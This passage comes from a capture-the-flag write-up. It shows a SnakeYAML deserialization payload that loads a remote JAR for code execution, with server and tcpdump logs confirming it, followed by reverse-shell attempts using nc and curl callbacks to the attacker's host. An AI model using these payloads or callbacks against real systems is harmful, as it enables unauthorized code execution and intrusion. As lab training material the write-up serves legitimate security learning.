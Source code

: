 I’ll move `ping.jar` into my directory hosted by the Python webserver, and
send the payload:

    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/ping.jar"]
      ]]
    ]
    

First it’s requested from the HTTP server (twice for some reason):

    
    
    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
    

Then it pings my VM:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    07:16:58.677743 IP 10.10.10.227 > 10.10.14.7: ICMP echo request, id 3, seq 1, length 64
    07:16:58.677755 IP 10.10.14.7 > 10.10.10.227: ICMP echo reply, id 3, seq 1, length 64
    

That’s RCE.

### Rev Shell

Getting a reverse shell from here wasn’t trivial. I think this is typically of
Java. I tried several Java reverse shells, and putting typical Bash and `nc`
based shells into the `Runtime.getRuntime().exec()`. Nothing worked.

Stepping back, I tried just putting `nc 10.10.14.7 443` into
`Runtime.getRuntime().exec()`, and it connected back. So it isn’t a firewall,
but rather something about how Java is running the reverse shells. What about
`curl`? I’ll modify the Java source to issues `curl http://10.10.14.7`,
recompile / re-Jar, and trigger, and it works:

    
    
    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:29] "GET / HTTP/1.1" 200 -
    

I’ve run into this before. Java has issues when you include pipes or redirects
in the execution payloads. The best way around this is to do it in steps:

  1. Use `curl` or `wget` to upload a Bash script that provides a ReverseShell.
  2. `chmod` that script `+x`.
  3. Call the script.

This can be done in one JAR payload:

    
    